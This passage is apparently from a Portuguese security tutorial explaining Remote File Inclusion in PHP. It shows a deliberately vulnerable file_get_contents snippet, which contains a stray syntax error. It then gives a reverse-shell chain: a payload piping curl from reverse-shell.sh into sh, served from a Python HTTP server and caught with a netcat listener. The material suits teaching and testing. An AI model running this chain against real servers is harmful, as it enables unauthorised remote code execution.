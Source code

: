 Remote file inclusion

Podemos fazer a inclusão remota de arquivos no servidor alvo, em certos cenários podemos até executar comandos remotamente (RCE) no servidor alvo.

Existe como executar código de RFI em lugar vulneráveis a LFI? Não no caso do exemplo anterior, porque normalmente nas falha LFI apresentada não podemos manipular os schemas de URL (http, ftp, file, etc).

No caso um código vulnerável a RFI não poderia ter hardcoded `pages/` antes do valor buscado pelo `file_get_contents`, ficaria da seguinte maneira:

```php
<?php
    if(isset($_GET['page']) AND !empty($_GET['page'])) {
        echo file_get_contents(.$_GET['page']);
    } else {
        echo file_get_contents("pages/home.html");
    }
?>
```

Como podemos perceber, se o parâmetro page existir, ele vai pegar diretamente do input da URI e passar para o `file_get_contents`, e assim é possível executar RFI.

Por exemplo, podemos subir um servidor python da seguinte maneira:

`python -m SimpleHTTPServer 1234`

Lembrando que os arquivos PHP nesse caso não podem ser executados pelo servidor de ataque, podem apenas ser hosteado para download.

Na pasta onde o servidor python é startado existe um arquivo chamado index.php com o seguinte conteúdo:

```php
<?php
    system('curl https://reverse-shell.sh/10.10.13.107:4444 | sh');
?>
```

E na nossa máquina estamos escutando com netcat (nc) na porta 4444 através do comando:

`nc -lvp 4444`

E pronto, temos uma reverse shell conectada.